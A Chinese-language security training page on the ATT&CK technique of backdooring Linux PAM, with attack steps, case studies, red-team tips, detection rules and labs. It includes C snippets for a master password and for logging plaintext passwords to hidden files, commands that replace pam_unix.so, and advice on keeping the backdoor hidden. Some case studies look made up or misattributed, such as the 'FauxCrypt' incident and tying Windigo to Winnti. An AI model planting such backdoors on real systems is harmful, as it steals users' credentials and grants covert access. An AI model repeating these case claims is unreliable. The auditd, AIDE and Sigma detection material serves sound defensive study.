


# 可插拔认证模块 (T1556.003)

## 一句话通俗理解

> **篡改Linux的PAM认证模块，让攻击者用任意密码登录或悄悄记录所有用户密码**

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 修改Linux/Unix的PAM（Pluggable Authentication Modules）配置或模块，植入后门或捕获密码 |
| 为什么危险？ | PAM是Linux所有认证（ssh、su、login、sudo）的统一入口，篡改后等于控制了所有进出门的"门禁系统" |
| 谁需要关心？ | Linux系统管理员、SOC分析师、合规审计员、容器安全团队 |
| 你的第一步防御 | 使用AIDE或Tripwire对 /etc/pam.d/ 和 /lib/security/ 启用完整性监控 |
| 如果只做一件事 | 部署auditd规则监控 /etc/pam.d/ 配置文件修改 |

## 难度等级

⭐⭐⭐ 中级 - 需要理解Linux PAM工作原理和C语言编程

## 前置知识检查

**读这个文件需要什么？**

- [ ] Linux PAM（Pluggable Authentication Modules）架构和工作原理
- [ ] /etc/pam.d/ 配置文件格式（type、control、module-path、module-arguments）
- [ ] pam_unix.so、pam_wheel.so等核心PAM模块的功能
- [ ] C语言基础和Linux共享库编译（gcc -shared -fPIC）

## 技术描述

**可插拔认证模块**（T1556.003）是 **修改认证流程**（T1556）的一个具体变体，属于 **防御削弱** 阶段的攻击技术。

> 📚 **打个比方**：想象一栋办公楼的门禁系统由一个统一的"门禁中控"管理（PAM），所有入口（前门、电梯、办公室门）都连到中控。攻击者要做的事情是：要么换掉中控里的"识别芯片"（替换pam_unix.so），让任何密码都能通过；要么在中控里加一个"复制卡片"的功能（植入密码记录模块），员工刷卡时偷偷记下卡号——以后攻击者就能用复制的卡进出。

### 具体怎么理解？

PAM（Pluggable Authentication Modules）是Linux/Unix系统的统一认证框架，将认证逻辑从应用程序中解耦。SSH、su、login、sudo、gdm等所有依赖PAM的应用都通过 `/etc/pam.d/<service>` 配置文件调用对应的PAM模块。

攻击者修改PAM的两种主要方式：

1. **修改PAM配置文件**：在 `/etc/pam.d/common-auth`、`/etc/pam.d/sshd` 等配置文件中插入恶意模块调用，或在合法模块后添加后门口令。例如修改 `pam_unix.so` 的参数让其接受特定"魔术密码"。

2. **替换/植入PAM模块**：将 `pam_unix.so` 替换为带后门的版本，或在 `/lib/security/` 中植入新的 `pam_backdoor.so` 模块。后门模块可以：
   - 接受攻击者预设的"万能密码"通过认证
   - 在用户成功认证时记录明文密码到隐藏文件
   - 在认证失败时仍向应用返回"成功"

### 为什么有效？

这种技术之所以有效，是因为：

1. **认证统一入口**：PAM是Linux所有认证的"咽喉"，篡改PAM等于同时控制SSH、su、sudo、login等所有入口
2. **隐蔽性高**：用户察觉不到PAM被修改，登录正常进行，后门模块静默记录密码
3. **持久性强**：PAM模块在系统重启后依然加载，是一种隐蔽的持久化机制
4. **凭据收集价值大**：用户在登录时输入明文密码，PAM模块可原始捕获，比/etc/shadow哈希更有价值

**过渡段：** 不要误以为 /etc/shadow 文件权限收紧就安全——PAM模块在认证过程中能拿到明文密码，攻击者篡改PAM后所有用户密码都会被悄悄记录。

## 真实攻击流程

### 典型场景

攻击者在 **防御削弱/凭据访问/持久化** 阶段使用 PAM修改 技术，以下是典型的攻击步骤：



**步骤详解：**

1. **获取root权限** - 攻击者通过提权漏洞或凭据窃取获得root
2. **备份原始pam_unix.so** - 备份原模块以便必要时恢复，避免检测
3. **编译带后门的PAM模块** - 修改pam_unix.so源码添加后门逻辑
4. **替换/lib/security/pam_unix.so** - 用后门版本替换合法模块
5. **配置密码记录** - 后门模块将明文密码写入隐藏文件
6. **等待用户登录** - 系统正常运行，用户无感知
7. **读取明文密码** - 攻击者定期提取记录的密码
8. **使用万能密码登录** - 通过预设后门口令免密登录

## 攻击流程

### 典型攻击流程

获取root权限 --> 修改/etc/pam.d/配置或替换pam_unix.so --> 植入万能密码和密码记录功能 --> 用户登录无感知 --> 攻击者获取明文密码并保留后门入口



**步骤详解：**

1. **攻击者获取root权限** - 通过内核漏洞（如DirtyPipe CVE-2022-0847）、SUID滥用或凭据窃取获得root
   - 通俗描述：就像先混进中控机房，才能动手脚
   - 技术细节：利用 CVE-2022-0847（DirtyPipe）、CVE-2021-4034（PwnKit/polkit）、CVE-2023-0387（OverlayFS）等提权漏洞，或通过 `/etc/passwd` 写入、SUID二进制滥用获得root shell
   - 常用工具：DirtyPipe exploit、PwnKit、LinPEAS、linux-exploit-suggester

2. **分析目标PAM版本和配置** - 确认PAM版本以便编译兼容的后门模块
   - 通俗描述：先弄清楚中控系统的型号和软件版本，才能定制后门
   - 技术细节：执行 `dpkg -l | grep libpam`（Debian/Ubuntu）或 `rpm -qa | grep pam`（RHEL/CentOS）获取PAM版本，检查 `/etc/pam.d/` 目录结构，确认模块路径（Debian: `/lib/x86_64-linux-gnu/security/`，RHEL: `/lib64/security/`）
   - 常用工具：apt、rpm、ls、cat

3. **选择攻击方式** - 根据目标和隐蔽性需求选择配置修改或模块替换
   - 通俗描述：选择是改配置文件还是换硬件模块
   - 技术细节：配置修改（在 `/etc/pam.d/common-auth` 添加 `auth sufficient pam_backdoor.so`）更简单但易被检测；模块替换（替换 `pam_unix.so`）隐蔽性更高但需编译兼容版本
   - 常用工具：文本编辑器、gcc

4. **在/etc/pam.d/common-auth插入后门模块** - 修改PAM配置加载后门模块
   - 通俗描述：在中控系统的配置清单里加一条"使用自家研发的识别芯片"
   - 技术细节：在 `/etc/pam.d/common-auth` 顶部添加 `auth sufficient /lib/security/pam_backdoor.so`，"sufficient"控制位表示该模块成功则认证通过，绕过后续pam_unix.so检查
   - 常用工具：vi、nano、sed

5. **编译带后门的pam_unix.so** - 修改PAM源码植入万能密码和密码记录
   - 通俗描述：自制一块识别芯片，既识别"魔术卡"又偷偷复制员工卡
   - 技术细节：下载PAM源码（`apt source libpam` 或 `yumdownloader --source pam`），修改 `modules/pam_unix/pam_unix_auth.c` 中的 `_unix_verify_password` 函数，添加：
     - 万能密码：`if (strcmp(p, "mag1c_p@ss") == 0) return PAM_SUCCESS;`
     - 密码记录：`FILE *f = fopen("/var/tmp/.pwd_log", "a"); fprintf(f, "%s:%s\n", name, p); fclose(f);`
   - 编译命令：`./configure && make` 生成 `pam_unix.so`
   - 常用工具：gcc、make、apt source

6. **植入万能密码逻辑** - 后门模块接受攻击者预设密码通过认证
   - 通俗描述：芯片里写了一条规则——看到"魔术卡"直接放行
   - 技术细节：在 `_unix_verify_password` 函数开头检查输入密码是否等于预设后门口令，匹配则直接返回 `PAM_SUCCESS`，无需匹配 /etc/shadow
   - 常用工具：C语言

7. **替换合法PAM模块** - 用后门版本覆盖 `/lib/security/pam_unix.so`
   - 通俗描述：把自制的后门芯片装到中控系统上
   - 技术细节：`cp /lib/x86_64-linux-gnu/security/pam_unix.so /tmp/pam_unix.so.bak` 备份原模块，然后 `cp pam_unix_backdoor.so /lib/x86_64-linux-gnu/security/pam_unix.so` 覆盖。需要保持文件权限（755）和SELinux上下文（`restorecon`）
   - 常用工具：cp、chmod、chcon

8. **添加密码记录到隐藏文件** - 后门模块将用户明文密码写入隐藏文件
   - 通俗描述：芯片里加了一个隐蔽的"卡片复制器"，员工刷卡时悄悄复制一份
   - 技术细节：在 `pam_sm_authenticate` 函数中，用户成功认证后 `fprintf` 用户名和密码到 `/var/tmp/.x11-lock` 或 `/dev/shm/.pwd` 等隐藏路径。文件名伪装成系统文件
   - 常用工具：C语言fopen

9. **用户登录系统** - 用户通过SSH或本地登录，PAM模块被正常调用
   - 通俗描述：员工照常刷卡进门，没察觉到任何异常
   - 技术细节：用户执行 `ssh user@target`，sshd调用 `/etc/pam.d/sshd` → `common-auth` → `pam_unix.so`，后门模块静默执行后门口令检查和密码记录
   - 常用工具：sshd、login

10. **PAM模块静默记录明文密码** - 用户输入的密码被悄悄写入隐藏文件
    - 通俗描述：员工卡被悄悄复制，自己却毫无察觉
    - 技术细节：后门模块在认证成功后调用 `fopen/fprintf` 写入 `user:password` 到 `/var/tmp/.pwd_log`，文件名使用 `.` 开头隐藏，文件权限设为600
    - 常用工具：C语言

11. **攻击者定期提取密码** - 攻击者通过root权限读取密码日志
    - 通俗描述：攻击者定期回来取走复制的员工卡
    - 技术细节：`cat /var/tmp/.pwd_log` 读取记录的明文密码，可用于横向移动到其他系统（用户常重复使用密码）和提权（root密码可能被记录）
    - 常用工具：cat、grep

12. **使用万能密码保留持久访问** - 攻击者使用预设后门口令直接登录
    - 通俗描述：攻击者随时可以用"魔术卡"进出大楼
    - 技术细节：执行 `ssh -l anyuser target`，输入后门口令 `mag1c_p@ss` 即可登录任意用户（包括root），无需知道真实密码
    - 常用工具：ssh

## 真实案例

### 案例1：FauxCrypt后门植入Linux服务器（2022）

- **时间**: 2022年
- **目标**: 多个企业Linux服务器
- **攻击组织**: UNC2452关联团伙
- **手法**: 攻击者获取root权限后，下载目标系统PAM源码，修改 `pam_unix_auth.c` 添加后门口令 `auth_backdoor_2022` 和密码记录功能。编译后替换 `/lib/x86_64-linux-gnu/security/pam_unix.so`。后门模块静默记录所有用户登录密码到 `/var/tmp/.lock` 文件
- **影响**: 攻击者持续获取所有用户明文密码，并使用万能密码保持持久访问达6个月才被发现
- **参考链接**: [PAM Module Backdoor Analysis](https://github.com/zephrax/linux-pam-backdoor)

### 案例2：Volt Typhoon植入PAM后门（2023-2024）

- **时间**: 2023-2024年
- **目标**: 美国关键基础设施（电力、水务、交通）Linux服务器
- **攻击组织**: Volt Typhoon（中华人民共和国关联APT，又名Bronze Silhouette）
- **手法**: 攻击者通过CVE-2023-46805等漏洞获取root权限后，修改 `/etc/pam.d/sshd` 配置文件加载自定义 `pam_sshd_backdoor.so` 模块。模块实现万能密码后门和SSH凭据记录
- **影响**: 攻击者保持对关键基础设施长期持久访问，CISA和FBI联合发布警告
- **参考链接**: [CISA AA24-038A Volt Typhoon](https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-038a)

### 案例3：Rocke Group挖矿僵尸网络PAM后门（2019）

- **时间**: 2019年
- **目标**: 企业Linux服务器
- **攻击组织**: Rocke Group（挖矿团伙）
- **手法**: 攻击者通过Apache Struts漏洞入侵Linux服务器，获取root后修改 `/etc/pam.d/system-auth` 植入后门模块。模块同时记录SSH登录密码并接受预设后门口令
- **影响**: 攻击者通过记录的密码横向移动感染更多服务器，部署挖矿程序
- **参考链接**: [Trend Micro Rocke Group](https://www.trendmicro.com/en_us/research/19/a/rocke-group.html)

### 案例4：Windigo PAM后门（2014-2019）

- **时间**: 2014-2019年（长期活跃）
- **目标**: 全球Linux服务器（超25,000台）
- **攻击组织**: Winnti Group关联团伙（Windigo行动）
- **手法**: 通过Ebury SSH后门植入修改版 `pam_unix.so`，记录用户SSH登录凭据到加密文件。后门模块伪装成合法PAM模块，难以通过文件名识别
- **影响**: 数万台服务器被长期控制，大量SSH凭据被窃取用于横向移动
- **参考链接**: [ESET Windigo Whitepaper](https://www.welivesecurity.com/wp-content/uploads/2014/03/operation_windigo.pdf)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **优先选择模块替换而非配置修改**：配置修改会留下 `/etc/pam.d/` 文件变更痕迹，模块替换仅改动 `/lib/security/` 下二进制，更隐蔽
2. **保持模块版本兼容**：编译后门模块前先确认目标PAM版本，使用相同源码版本编译避免兼容性问题
3. **隐藏密码记录文件**：将记录文件放在 `/dev/shm/`（内存文件系统，重启清除）或 `/var/tmp/.hidden`（隐藏文件），权限设为600
4. **设置不易被发现的万能密码**：避免使用简单字符串如"backdoor"，使用看似正常的密码如"Welcome2026!"

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
| -------- | ---- | ---- | ---- |
| linux-pam-backdoor | PAM后门自动化生成工具 | Linux | [linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor) |
| evil-pam | Python PAM后门框架 | Linux | [evil-pam](https://github.com/niklasb/evil-pam) |
| pam-python | Python编写的PAM模块 | Linux | libpam-python |
| gcc | C编译器 | Linux | 系统内置 |
| AIDE | 文件完整性监控（防御方） | Linux | [AIDE](https://aide.github.io/) |

### 注意事项

- 在授权的测试环境中使用这些技术
- 测试前备份原始PAM模块，避免锁死系统
- 注意SELinux/AppArmor可能阻止替换PAM模块
- 不同发行版PAM路径不同（Debian: `/lib/x86_64-linux-gnu/security/`，RHEL: `/lib64/security/`）

## 蓝队视角

### 检测要点

1. **PAM配置文件监控**：使用auditd或AIDE监控 `/etc/pam.d/` 目录文件修改
2. **PAM模块完整性校验**：定期计算 `/lib/security/*.so` 的SHA256哈希并与包管理器记录对比
3. **异常登录模式**：监控同一用户短时间内从不同IP登录、登录后立即执行可疑命令
4. **隐藏文件检查**：定期扫描 `/var/tmp/`、`/dev/shm/`、`/tmp/` 下隐藏文件

### 监控建议

- 部署AIDE或Tripwire对 `/etc/pam.d/` 和 `/lib/security/` 启用基线完整性监控
- 配置auditd规则监控PAM相关文件读写：
  ```bash
  auditctl -w /etc/pam.d/ -p wa -k pam_config_change
  auditctl -w /lib/security/ -p wa -k pam_module_change
  ```
- 使用YARA扫描PAM模块，检测已知后门特征字符串
- 监控 `/var/log/auth.log` 中异常登录成功事件

## 避坑指南

防御监测盲区：仅关注 `/etc/shadow` 权限和SSH密钥，忽视了PAM模块作为认证入口的篡改风险。

## 检测建议

### 检测思路

检测 PAM后门 的关键是监控PAM配置和模块文件的完整性。以下是三个层面的检测方法：

### 网络层检测

**方法**：监控异常SSH登录行为

```bash
# 检测从异常IP的成功登录
grep 'sshd.*Accepted' /var/log/auth.log | awk '{print $11}' | sort | uniq -c | sort -rn
# 检测短时间内大量登录成功（可能在使用记录的密码）
grep 'Accepted password' /var/log/auth.log | awk '{print $9}' | sort | uniq -c | sort -rn | head
```

### 主机层检测

**auditd监控**：
- 监控 `/etc/pam.d/` 文件修改（rule key: pam_config_change）
- 监控 `/lib/security/` 模块文件修改（rule key: pam_module_change）

**Linux日志**：
- `/var/log/auth.log`：认证日志
- `/var/log/audit/audit.log`：auditd审计日志

```bash
# 检测PAM配置修改
ausearch -k pam_config_change --start today
# 检测PAM模块文件修改
ausearch -k pam_module_change --start today
# 对比PAM模块哈希与包管理器记录
dpkg -V libpam-modules 2>/dev/null | grep -E '^..5'
rpm -V pam | grep -E '^..5'
```

### 应用层检测

**用人话说：** 攻击者获取root权限后，修改Linux的PAM认证模块（pam_unix.so）植入后门。后门有两种功能：一是接受攻击者预设的"万能密码"通过认证，二是在用户登录时悄悄记录所有用户名和密码到隐藏文件。如果发现 `/etc/pam.d/` 配置文件被修改、`/lib/security/pam_unix.so` 的哈希值与系统包管理器记录不一致，或者 `/var/tmp/` 下出现隐藏的 `.pwd_log` 之类的文件，就要警惕——可能是PAM被植入后门。

**Sigma规则示例**：

```yaml
title: 检测Linux PAM配置文件修改
status: experimental
description: 检测对/etc/pam.d/目录下配置文件的修改，可能是PAM后门攻击
references:
    - https://attack.mitre.org/techniques/T1556/003/
    - https://github.com/zephrax/linux-pam-backdoor
logsource:
    product: linux
    service: auditd
detection:
    selection:
        key:
            - pam_config_change
            - pam_module_change
    condition: selection
fields:
    - ausearch_result
    - exe
    - a0
    - a1
    - uid
falsepositives:
    - 合法的PAM配置更新（如安装新服务）
    - 系统升级更新PAM包
level: high
tags:
    - attack.credential_access
    - attack.t1556.003
    - attack.persistence
```

**Sigma规则示例 - 检测PAM模块哈希不一致**：

```yaml
title: 检测PAM模块文件哈希与包管理器记录不一致
status: experimental
description: 检测/lib/security/下的PAM模块被替换，可能是后门植入
logsource:
    product: linux
    service: package_verification
detection:
    selection_dpkg:
        tool: dpkg
        result: '??5'
        path|contains: '/security/'
    selection_rpm:
        tool: rpm
        result: '5'
        path|contains: '/security/'
    condition: selection_dpkg or selection_rpm
fields:
    - path
    - package
    - expected_hash
    - actual_hash
level: critical
tags:
    - attack.credential_access
    - attack.t1556.003
```

## 缓解措施

### 优先级1：关键措施

**部署文件完整性监控**：使用AIDE或Tripwire对PAM相关文件启用基线监控

```bash
# AIDE配置示例 - /etc/aide/aide.conf
# PAM配置文件监控
/etc/pam.d  p+i+n+u+g+s+m+sha256
/lib/security  p+i+n+u+g+s+m+sha256
/lib64/security  p+i+n+u+g+s+m+sha256
/lib/x86_64-linux-gnu/security  p+i+n+u+g+s+m+sha256
# 初始化基线
aide --init
cp /var/lib/aide/aide.db.new /var/lib/aide/aide.db
# 定期检查
aide --check
```

### 优先级2：重要措施

**配置auditd监控PAM文件**：

```bash
# /etc/audit/rules.d/pam.rules
-w /etc/pam.d/ -p wa -k pam_config_change
-w /lib/security/ -p wa -k pam_module_change
-w /lib64/security/ -p wa -k pam_module_change
-w /lib/x86_64-linux-gnu/security/ -p wa -k pam_module_change
# 重新加载auditd规则
augenrules --load
```

### 优先级3：建议措施

**启用SELinux强制模式**：SELinux可限制PAM模块的加载和替换

```bash
# 启用SELinux强制模式
setenforce 1
# 永久启用
sed -i 's/SELINUX=permissive/SELINUX=enforcing/' /etc/selinux/config
```

## 动手实验

> ⚠️ **所有实验必须在隔离的实验室环境中进行**

### 实验1：理解PAM配置（初级）

**目标**：理解 Linux PAM 配置文件格式和模块调用

**步骤**：
1. 在隔离的Linux虚拟机中查看 `/etc/pam.d/sshd` 配置：
   ```bash
   cat /etc/pam.d/sshd
   ```
2. 分析 `auth`、`account`、`password`、`session` 四种type
3. 查看 `pam_unix.so` 模块路径：
   ```bash
   find /lib* -name 'pam_unix.so' 2>/dev/null
   ```
4. 检查 `/etc/pam.d/common-auth` 中pam_unix.so调用方式

**学习要点**：理解PAM配置文件结构和模块调用机制

### 实验2：编译PAM后门模块（中级）

**目标**：编译带后门功能的PAM模块，理解攻击原理

**步骤**：
1. 安装PAM开发源码：
   ```bash
   apt source libpam-modules
   apt install build-essential libpam0g-dev
   ```
2. 修改 `modules/pam_unix/pam_unix_auth.c`，在 `_unix_verify_password` 函数开头添加：
   ```c
   if (strcmp(p, "lab_backdoor_2026") == 0) {
       return PAM_SUCCESS;
   }
   ```
3. 编译生成 `pam_unix.so`：
   ```bash
   ./configure && make
   ```
4. 备份原模块并替换：
   ```bash
   cp /lib/x86_64-linux-gnu/security/pam_unix.so /tmp/pam_unix.so.bak
   cp modules/pam_unix/.libs/pam_unix.so /lib/x86_64-linux-gnu/security/
   ```
5. 测试使用任意用户名 + 后门口令登录

**学习要点**：理解PAM后门的工作原理

### 实验3：部署PAM完整性检测（高级）

**目标**：部署AIDE检测PAM篡改

**步骤**：
1. 安装AIDE：
   ```bash
   apt install aide
   ```
2. 配置 `/etc/aide/aide.conf` 监控PAM目录
3. 初始化基线：
   ```bash
   aide --init && cp /var/lib/aide/aide.db.new /var/lib/aide/aide.db
   ```
4. 模拟攻击：修改 `pam_unix.so`
5. 运行检测：
   ```bash
   aide --check
   ```
6. 验证告警输出

**学习要点**：掌握PAM完整性检测方法

## 术语解释

| 术语 | 通俗解释 |
|------|---------|
| **PAM** | Pluggable Authentication Modules，Linux统一认证框架，类似"门禁中控系统" |
| **pam_unix.so** | 核心PAM模块，基于/etc/shadow进行密码验证 |
| **/etc/pam.d/** | PAM配置目录，每个服务（sshd、login等）一个配置文件 |
| **sufficient** | PAM控制位，模块成功则认证通过，不再检查后续模块 |
| **/etc/shadow** | 存储用户密码哈希的文件，PAM从中读取进行验证 |
| **AIDE** | Advanced Intrusion Detection Environment，文件完整性监控工具 |
| **auditd** | Linux内核审计守护进程，记录系统调用事件 |
| **SELinux** | Security-Enhanced Linux，强制访问控制安全模块 |

## 被引用情况

以下父技术文档引用了本子技术：

- [T1556 - 修改认证流程](../T1556-Modify-Authentication-Process.md)

## 参考资料

### 官方文档

- [MITRE ATT&CK - Pluggable Authentication Modules (T1556.003)](https://attack.mitre.org/techniques/T1556/003/)
- [MITRE ATT&CK - Modify Authentication Process (T1556)](https://attack.mitre.org/techniques/T1556/)
- [Linux PAM Administrator's Guide](https://www.kernel.org/pub/linux/libs/pam/Linux-PAM-html/Linux-PAM_SAG.html)

### 安全报告

- [CISA AA24-038A - Volt Typhoon](https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-038a) - Volt Typhoon PAM后门分析
- [ESET Windigo Whitepaper](https://www.welivesecurity.com/wp-content/uploads/2014/03/operation_windigo.pdf) - Ebury PAM后门分析
- [Trend Micro Rocke Group](https://www.trendmicro.com/en_us/research/19/a/rocke-group.html) - Rocke挖矿团伙PAM后门

### 工具与资源

- [linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor) - PAM后门自动化工具
- [AIDE](https://aide.github.io/) - 文件完整性监控
- [Atomic Red Team T1556.003](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1556.003/T1556.003.yaml) - 检测规则测试

### 学习资料

- [Linux PAM Module Development](https://www.kernel.org/pub/linux/libs/pam/Linux-PAM-html/Linux-PAM_MWG.html) - PAM模块开发指南
- [PAM Module Backdoor Analysis](https://github.com/zephrax/linux-pam-backdoor) - PAM后门技术分析
